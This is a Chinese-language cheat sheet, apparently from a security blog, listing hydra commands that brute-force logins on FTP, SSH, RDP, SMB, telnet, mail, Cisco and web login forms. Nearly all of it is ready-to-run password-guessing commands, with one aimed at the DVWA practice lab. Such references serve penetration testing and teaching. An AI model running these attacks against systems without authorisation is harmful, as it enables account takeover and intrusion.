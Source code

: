 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)hydra

hydra在线

路由

hydra -l haha -P 字典 http://192.168.1.1

## ![](../img/github14.png)破解ftp
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV

hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

## ![](../img/github15.png)get方式提交 破解web登录
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /web/

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /web/index.asp

## ![](../img/github16.png)破解ssh
hydra -l 用户名 -p 密码字典 -t 线程 -e ns ip ssh

hydra -l 用户名 -p 密码字典 -t 线程 -o save.log ip ssh

## ![](../img/github16.png)破解teamspeak
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak

## ![](../img/github17.png)post方式提交 破解web登录
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"

## ![](../img/github18.png)cisco
hydra -P pass.txt 192.168.1.229 cisco

hydra -m cloud -P pass.txt 192.168.1.229 cisco-enable

## ![](../img/github26.png)smb
hydra -l administrator -P pass.txt 192.168.0.141 smb

## ![](../img/github19.png)pop3
hydra -l muts -P pass.txt my.pop3.mail pop3

## ![](../img/github20.png)https
hydra -m /index.php -l muts -P pass.txt 192.168.0.12 https

## ![](../img/github21.png)rdp
hydra ip rdp -l administrator -P pass.txt -V

## ![](../img/github22.png)http-proxy
hydra -l admin -P pass.txt http-proxy://192.168.0.1

## ![](../img/github23.png)imap
hydra -L user.txt -p secret 192.168.0.1 imap PLAIN

hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN

## ![](../img/github24.png)telnet
hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V

## ![](../img/github25.png)http:
hydra -L list_user -P list_password 192.168.56.101 http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed” -V
。。。。。。

__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./tools)
